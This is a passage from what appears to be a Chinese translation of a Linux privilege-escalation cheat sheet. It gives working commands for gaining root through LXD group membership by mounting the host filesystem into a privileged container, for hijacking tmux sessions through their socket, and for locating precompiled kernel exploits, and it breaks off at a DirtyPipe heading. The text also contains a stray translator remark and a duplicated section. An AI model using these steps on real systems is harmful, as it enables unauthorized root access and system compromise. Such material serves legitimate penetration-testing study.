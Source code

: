构建一个Alpine镜像并使用标志`security.privileged=true`启动它，强制容器以root身份与主机文件系统交互。

```powershell
# 构建一个简单的Alpine镜像
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# 导入镜像
lxc image import ./alpine.tar.gz --alias myimage

# 运行镜像
lxc init myimage mycontainer -c security.privileged=true

# 将/root挂载到镜像中
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# 与容器交互
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

另外，请参见https://github.com/initstring/lxd_root

## 劫持TMUX会话

Require a read access to the tmux socket : `/tmp/tmux-1000/default`.

```powershell
export TMUX=/tmp/tmux-1000/default,1234,0 
tmux ls
```

根据您上传的文档内容，这是文档的翻译版本：

需要读取tmux套接字的权限：`/tmp/tmux-1000/default`。

```powershell
export TMUX=/tmp/tmux-1000/default,1234,0
tmux ls
```

## 内核漏洞利用

在这些仓库中可以找到预编译的漏洞利用程序，运行它们风险自负！

* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

以下漏洞已知效果良好，使用`searchsploit -w linux kernel centos`搜索更多漏洞。

另一种找到内核漏洞的方法是通过执行`uname -a`获取机器的特定内核版本和Linux发行版。复制内核版本和发行版，然后在谷歌或https://www.exploit-db.com/ 中搜索。

### CVE-2022-0847 (DirtyPipe)

Linux权限提升 - Linux内核 5.8 < 5.16.11
